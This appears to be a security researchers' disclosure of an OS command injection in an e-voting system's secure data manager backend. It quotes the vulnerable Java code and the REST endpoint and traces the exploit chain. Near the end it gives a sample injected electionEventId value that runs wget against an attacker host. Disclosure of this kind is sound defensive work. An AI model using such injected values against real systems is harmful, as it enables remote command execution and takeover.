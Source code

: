# OS command injection
---

| Action  | Date  |
|---|---|
| Vulnerability reported  | 08.02.2019   |
| Report closed  | 18.02.2019  |
| Vulnerability fixed  | Next Version (Date NA)  |

Abstract: Given an attacker has internal access to the system they would be able to execute arbitrary OS commands by registering voting events.

The following file is vulnerable for command injection:
```java
/evoting-solution/source-code/online-voting-secure-data-manager/secure-data-manager-backend/secure-data-manager-integration/src/main/java/com/scytl/products/ov/sdm/plugin/SequentialExecutorImpl.java
```

Containing the following function:
```java
    public void execute(List<String> commands, Parameters parameters, ExecutionListener listener) {

        for(String command : commands) {
            String mockCommand = command;
            try {
                //Replace the parameters and execute the command
                String[] partialCommands = replaceParameters(command, parameters);
                String fullCommand = partialCommands[0];
                mockCommand = partialCommands[1];
                Process proc = Runtime.getRuntime().exec(fullCommand);
```

If an attacker is able to manipulate fullCommand, he can overtake the secure-data-manager-backend system.


The replaceParameters function isn't escaping the command: 

```java
    private String[] replaceParameters(String command, Parameters parameters) {
        String partialCommand = command;
        String replacedCommand = command;
        
        for (KeyParameter key : KeyParameter.values()) {
            if(replacedCommand.contains(key.toString())) {
                String value = parameters.getParam(key.name());
                if(value == null || value.isEmpty()){
                    throw new IllegalArgumentException("Parameter #" + key.name() + "# is null or empty");
                } else {
                	replacedCommand = replacedCommand.replaceAll("#" + key + "#", value);
                    if (key == KeyParameter.PRIVATE_KEY) {
                        partialCommand = partialCommand.replaceAll("#" + key + "#", "PRIVATE_KEY");
                    } else {
                        partialCommand = partialCommand.replaceAll("#" + key + "#", value);
                    }
                }
```

The execute function is called from the following file which is used by the ws-rest backend component:
```java
evoting-solution/source-code/online-voting-secure-data-manager/secure-data-manager-backend/sdm-ws-rest/src/main/java/com/scytl/products/ov/sdm/ui/ws/rs/application/OperationsResource.java
```

Here is the vulnerable api declaration:
```java
    @RequestMapping(value = "/generate-ea-structure/{electionEventId}", method = RequestMethod.POST)
    @ApiOperation(value = "Export operation service", notes = "", response = Void.class)
    @ApiResponses(value = {@ApiResponse(code = 404, message = "Not Found"),
            @ApiResponse(code = 403, message = "Forbidden"),
            @ApiResponse(code = 500, message = "Internal Server Error") })
    public ResponseEntity<OperationResult> extendedAuthenticationMappingDataOperation(
            @ApiParam(value = "String", required = true) @PathVariable String electionEventId,
            @RequestBody final OperationsData request) {
        Parameters parameters = buildParameters(electionEventId, request.getPrivateKeyInBase64(), null);
        return executeOperationForPhase(parameters, PhaseName.PREPARE_VC_GENERATION, true, null, null);
    }
```

The important part is that {electionEventId} is declared as a string and we can provide an arbitrary value to it.

The api calls the sequentialExecutor class:
```java
private ResponseEntity<OperationResult> executeOperationForPhase(Parameters parameters, PhaseName phaseName,
                                                                     boolean failOnEmptyCommandsForPhase, SdmSecureLogEvent secureLogEvent, String electionEventId) {
        try {
            List<String> commandsForPhase = getCommands(phaseName);

            if (failOnEmptyCommandsForPhase && commandsForPhase.isEmpty()) {
                logSecure(secureLogEvent, electionEventId,
                    "The request can not be performed for 4005, Missing commands for phase");

                return handleException(OperationsOutputCode.MISSING_COMMANDS_FOR_PHASE);
            }
            ExecutionListenerImpl listener = new ExecutionListenerImpl();
            sequentialExecutor.execute(commandsForPhase, parameters, listener);
```

The sequentialExecutor class afterwards calls the vulnerable execute function.

Exploit chain:
[OperationsResource]->[executeOperationForPhase]->[SequentialExecutorImpl.execute]

Since there was no running instance of the affected components we weren't able to provide a PoC. 
Given we would have access to it a demo exploit would look something like this:

- Register a voting event with a electionEventId named "$({wget,http://www.attacker.org/})"



| Researchers |
| --- |
| Jannis Kirschner | 
| Anthony Schneiter | 


